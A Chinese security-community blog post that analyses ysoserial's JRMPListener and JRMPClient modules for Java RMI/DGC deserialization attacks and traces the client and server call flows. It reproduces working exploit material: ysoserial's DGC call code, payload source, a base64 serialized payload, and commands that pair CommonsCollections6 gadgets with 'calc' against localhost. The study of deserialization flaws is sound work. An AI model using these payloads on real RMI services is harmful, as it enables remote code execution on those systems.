

# Ysoserial JRMPListener/Client Review - 先知社区

Ysoserial JRMPListener/Client Review

- - -

之前对这玩意儿还是不太熟悉呢，RMI 的流程是熟悉了，但是这个还是有点混淆，特此记录。  
有关 RMI 的直接推荐看一下 Su18 师傅的  
[https://su18.org/post/rmi-attack/#%E4%B8%89-%E6%80%BB%E7%BB%93](https://su18.org/post/rmi-attack/#%E4%B8%89-%E6%80%BB%E7%BB%93)  
这个写的不错我觉得。思路和条理都比较清晰，但是光看还是不行的。比我写的好，理清一下思路。（我自己都不想看自己写的）  
也就是说当 RMI Client 发起请求后，流程大概如下

> 1.  RMI 客户端在调用远程方法时会先创建 Stub ( sun.rmi.registry.RegistryImpl\_Stub )。
> 2.  Stub 会将 Remote 对象传递给远程引用层 ( java.rmi.server.RemoteRef ) 并创建 java.rmi.server.RemoteCall( 远程调用 ) 对象。
> 3.  RemoteCall 序列化 RMI 服务名称、Remote 对象。
> 4.  RMI 客户端的远程引用层传输 RemoteCall 序列化后的请求信息通过 Socket 连接的方式传输到 RMI 服务端的远程引用层。
> 5.  RMI 服务端的远程引用层 ( sun.rmi.server.UnicastServerRef ) 收到请求会请求传递给 Skeleton ( sun.rmi.registry.RegistryImpl\_Skel#dispatch )。
> 6.  Skeleton 调用 RemoteCall 反序列化 RMI 客户端传过来的序列化。
> 7.  Skeleton 处理客户端请求：bind、list、lookup、rebind、unbind，如果是 lookup 则查找 RMI 服务名绑定的接口对象，序列化该对象并通过 RemoteCall 传输到客户端。
> 8.  RMI 客户端反序列化服务端结果，获取远程对象的引用。
> 9.  RMI 客户端调用远程方法，RMI 服务端反射调用 RMI 服务实现类的对应方法并序列化执行结果返回给客户端。
> 10.  RMI 客户端反序列化 RMI 远程方法调用结果。

上述是 su18 写的原话，我感觉是精华。结构感很强，我看的很懂，因为之前也自己分析过一遍流程，所以看的比较明白。

# Exploit

## JRMPListenr

顾名思义就是起一个恶意的 JRMP 监听器，用于接收一个 JRMP 请求，然后将恶意的序列化数据返回给我们的客户端，在客户端完成反序列化流程，最终 RCE。这里演示一遍简单的流程，首先需要准备一下 yso 源码，然后写一个简单的 demo 请求这个 Evil Listener

```plain
package com.javasec;

public class Demo {
    @Test
    public void test() throws Exception {
        Naming.lookup("rmi://127.0.0.1:7777/xxxx");
    }
}
```

yso 这边设置启动项

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110958-b067959c-d51d-1.png)

运行之后就会发现弹出了客户端弹出了计算器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111018-bc5faf38-d51d-1.png)

### 流程分析

这边进行双向流程分析，受害机和服务端的流程分析。  
首先当客户端进行 lookup 后，服务端的 thread 会接收请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111026-c14c4a7e-d51d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111034-c5cc86b8-d51d-1.png)

进入到 doMessage 流程，然后会在 client 这边获取到 op

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111040-c930f47e-d51d-1.png)

获取之后返回给服务端

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111048-ce4879f0-d51d-1.png)

这里 op 是 80，对应`TransportConstants.Call`进入 docall 方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111054-d19eabc4-d51d-1.png)

在这里开始设置恶意的返回值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111101-d5ac86e6-d51d-1.png)

注意这里设置了`TransportConstants.ExceptionalReturn`，这与我们后续 client 处理请求有关系，然后设置了一下 payloadObject，这里是 CC5。  
随之进入 Client

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111107-d96fd328-d51d-1.png)

这里的 return type 就是上面服务端设置的`TransportConstants.ExceptionalReturn`,因此我们会进入相应的 case

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111111-db9b146e-d51d-1.png)

这里就对输入流进行了原生的反序列化。到这里也就完成了 RCE，还是很有趣的。

## JRMPClient

参考下列的 Payloads/JRMPListener 部分，他是用来主动攻击我们开启的 JRMP 服务端的。  
Yso 中对应的源码是

```plain
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
        InetSocketAddress isa = new InetSocketAddress(hostname, port);
        Socket s = null;
        DataOutputStream dos = null;
        try {
            s = SocketFactory.getDefault().createSocket(hostname, port);
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);

            OutputStream os = s.getOutputStream();
            dos = new DataOutputStream(os);

            dos.writeInt(TransportConstants.Magic);
            dos.writeShort(TransportConstants.Version);
            dos.writeByte(TransportConstants.SingleOpProtocol);

            dos.write(TransportConstants.Call);

            @SuppressWarnings ( "resource" )
            final ObjectOutputStream objOut = new MarshalOutputStream(dos);

            objOut.writeLong(2); // DGC ObjID
            objOut.writeInt(0);
            objOut.writeLong(0);
            objOut.writeShort(0);

            objOut.writeInt(1); // dirty opnum is 1
            objOut.writeLong(-669196253586618813L); // hash

            objOut.writeObject(payloadObject); //will be unmarshaled as the first parameter

            os.flush();
        }
        finally {
            if ( dos != null ) {
                dos.close();
            }
            if ( s != null ) {
                s.close();
            }
        }
    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111120-e12fe7ba-d51d-1.png)

这里对应`objOut.writeLong(-669196253586618813L);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111124-e39656c4-d51d-1.png)

对应`objOut.writeInt(1); // dirty opnum is 1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111131-e79d93f4-d51d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111134-e9c3fa2e-d51d-1.png)

也就导致了反序列化，其他的 write 往前追溯都可以找到。  
这里就对应上述 payload 中的 write 一系列。

# Payloads

payload 模块对应的其实都是 gadgets，rmi 也有所谓的 gadgets

## JRMPListenr

首先 payload/JRMPListenr 的作用体现在，会让存在反序列化入口点的地方，主动开启一个恶意的端口，然后当我们往这个开启的端口送入恶意的参数时就会触发反序列化，从而导致 RCE。这个 payload 用到的地方不太多。但是流程很有趣。

### 流程分析

其实我自己是比较习惯于正向分析一波先，但是这里为了让条理清晰一点，我选择逆向分析 payload。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111141-edef6af2-d51d-1.png)

`java -jar ysoserial-all.jar JRMPListener 8888|base64`，使用这个 payload  
准备一个 demo

```plain
package com.javasec;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.nio.charset.StandardCharsets;
import java.rmi.Naming;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;

public class Demo {
    @Test
    public void test() throws Exception {
        //Naming.lookup("rmi://127.0.0.1:7777/xxxx");
        SerializeUtils.base64deserial("rO0ABXNyACJzdW4ucm1pLnNlcnZlci5BY3RpdmF0aW9uR3JvdXBJbXBsT+r9SAwuMqcCAARaAA1ncm91cEluYWN0aXZlTAAGYWN0aXZldAAVTGphdmEvdXRpbC9IYXNodGFibGU7TAAHZ3JvdXBJRHQAJ0xqYXZhL3JtaS9hY3RpdmF0aW9uL0FjdGl2YXRpb25Hcm91cElEO0wACWxvY2tlZElEc3QAEExqYXZhL3V0aWwvTGlzdDt4cgAjamF2YS5ybWkuYWN0aXZhdGlvbi5BY3RpdmF0aW9uR3JvdXCVLvKwBSnVVAIAA0oAC2luY2FybmF0aW9uTAAHZ3JvdXBJRHEAfgACTAAHbW9uaXRvcnQAJ0xqYXZhL3JtaS9hY3RpdmF0aW9uL0FjdGl2YXRpb25Nb25pdG9yO3hyACNqYXZhLnJtaS5zZXJ2ZXIuVW5pY2FzdFJlbW90ZU9iamVjdEUJEhX14n4xAgADSQAEcG9ydEwAA2NzZnQAKExqYXZhL3JtaS9zZXJ2ZXIvUk1JQ2xpZW50U29ja2V0RmFjdG9yeTtMAANzc2Z0AChMamF2YS9ybWkvc2VydmVyL1JNSVNlcnZlclNvY2tldEZhY3Rvcnk7eHIAHGphdmEucm1pLnNlcnZlci5SZW1vdGVTZXJ2ZXLHGQcSaPM5+wIAAHhyABxqYXZhLnJtaS5zZXJ2ZXIuUmVtb3RlT2JqZWN002G0kQxhMx4DAAB4cHcSABBVbmljYXN0U2VydmVyUmVmeAAAIrhwcAAAAAAAAAAAcHAAcHBw");
        while (true) {
            System.out.println(System.currentTimeMillis());
            Thread.sleep(3000);
        }
    }
}
```

这里的 while 循环是为了让进程不结束，因为我们要开端口的，程序结束了那么啥都结束了。

```plain
/**
 *
 *
 * UnicastRef.newCall(RemoteObject, Operation[], int, long)
 * DGCImpl_Stub.dirty(ObjID[], long, Lease)
 * DGCClient$EndpointEntry.makeDirtyCall(Set<RefEntry>, long)
 * DGCClient$EndpointEntry.registerRefs(List<LiveRef>)
 * DGCClient.registerRefs(Endpoint, List<LiveRef>)
 * LiveRef.read(ObjectInput, boolean)
 * UnicastRef.readExternal(ObjectInput)
 *
 * Thread.start()
 * DGCClient$EndpointEntry.<init>(Endpoint)
 * DGCClient$EndpointEntry.lookup(Endpoint)
 * DGCClient.registerRefs(Endpoint, List<LiveRef>)
 * LiveRef.read(ObjectInput, boolean)
 * UnicastRef.readExternal(ObjectInput)
 *
```

Yso 给出了调用栈，我们跟着来一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111152-f41d9b7e-d51d-1.png)

reexport 函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111157-f791d4dc-d51d-1.png)

这里就是我们 payload 里的 ActiveGroupImpl 了。我们准备把他 export。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111203-fa9ba838-d51d-1.png)

用 UnicastServerRef 包裹了一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111207-fd6e3706-d51d-1.png)

这里就是一直 export，我直接跳过了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111212-002fab3c-d51e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111216-02d5a2ba-d51e-1.png)

到这里就 listen 开启监听了。然后我们就可以用`exploit/jrmpclient`去攻击这个地方了。  
`java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 8888 CommonsCollections6 calc`

```plain
readObject:297, HashSet (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
dispatch:-1, DGCImpl_Skel (sun.rmi.transport)
oldDispatch:410, UnicastServerRef (sun.rmi.server)
dispatch:268, UnicastServerRef (sun.rmi.server)
run:200, Transport$1 (sun.rmi.transport)
run:197, Transport$1 (sun.rmi.transport)
doPrivileged:-1, AccessController (java.security)
serviceCall:196, Transport (sun.rmi.transport)
handleMessages:568, TCPTransport (sun.rmi.transport.tcp)
run0:790, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
lambda$run$256:683, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
run:-1, 1052690258 (sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$1)
doPrivileged:-1, AccessController (java.security)
run:682, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```

放一下 stack，我们创建的 listener 接受到了请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111223-06f626a8-d51e-1.png)

我们这其实是攻击了服务端的 DGC，可以看到左下角的 DGC\_SKEL，然后会对请求进行原生的反序列化，也就导致了 RCE。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111230-0b354212-d51e-1.png)

## JRMPClient

payloads/JRMPClient，这个gadgets是最常用的也是实战意义比较大的一个。它可以让反序列化点主动发起一个JRMP请求，然后我们配合exploit/JRMPListener开启一个监听。这样的话就可以成功的让client被攻击。是一种主动请求的方式。

### 流程分析

`java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 7777 CommonsCollections6 calc`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111236-0ebb0a16-d51e-1.png)

`java -jar ysoserial-all.jar JRMPClient 127.0.0.1:8888|base64`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111243-12b9cdfa-d51e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111248-15cbe492-d51e-1.png)

成功弹出计算机，这个方法的原理刚刚也说了，我们逆向跟一下流程。首先我们看一下 Yso 的 payloads 怎么构造的

```plain
public Registry getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
            Registry.class
        }, obj);
        return proxy;
    }
```

他用了一个`RemoteObjectInvocationHandler`去包裹我们的`UnicastRef`，然后在`RemoteObjectInvocationHandler`时

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111255-19ec8ed2-d51e-1.png)

调用了 UnicastRef 的`readExternal`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111300-1cbe5e10-d51e-1.png)

调用了 LiveRef 的 read

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111307-20cd6366-d51e-1.png)

`DGCClient.registerRefs`，到了 DGC 处理部分了。

> 在之前的调试过程中，也曾看到过 DGC 相关的代码，不过没有分析，统一在这里来说。  
> DGC（Distributed Garbage Collection）—— 分布式垃圾回收，当 Server 端返回一个对象到 Client 端（远程方法的调用方）时，其跟踪远程对象在 Client 端中的使用。当再没有更多的对 Client 远程对象的引用时，或者如果引用的“租借”过期并且没有更新，服务器将垃圾回收远程对象。启动一个 RMI 服务，就会伴随着 DGC 服务端的启动。  
> RMI 定义了一个 java.rmi.dgc.DGC 接口，提供了两个方法 dirty 和 clean：
> 
> -   客户端想要使用服务端上的远程引用，使用 dirty 方法来注册一个。同时这还跟租房子一样，过段时间继续用的话还要再调用一次来续租。
> -   客户端不使用的时候，需要调用 clean 方法来清楚这个远程引用。
> 
> 这个接口有两个实现类，分别是 sun.rmi.transport.DGCImpl 以及 sun.rmi.transport.DGCImpl\_Stub，同时还定义了 sun.rmi.transport.DGCImpl\_Skel。  
> 引自 Su18

这里是客户端 DGC 注册 Ref

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111313-24d0627e-d51e-1.png)

进入`registerRefs`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111317-26bbf5da-d51e-1.png)

在这里要发起 DirtyCall 了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111321-297ee0fc-d51e-1.png)

dirty 方法发起请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111326-2c31dc5a-d51e-1.png)

进而回到了 UnicastRef 的 newcall 方法发起请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111329-2deacebc-d51e-1.png)

至此完成主动访问 Evil server 的流程，Evil server 返回 payload 给客户端进行 Deser

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111332-2fd1807c-d51e-1.png)

结束。

# Summary

还是感觉 Yso 这 2 个 payload 是挺有意思的，大家可以自己去尝试尝试，别搞混淆了，JRMP 是 RMI 具有实战意义的 gadgets，分析其中的流程可以让大家更好的理解 RMI 发序列化。到这里也算给自己的 RMI 做个小结。
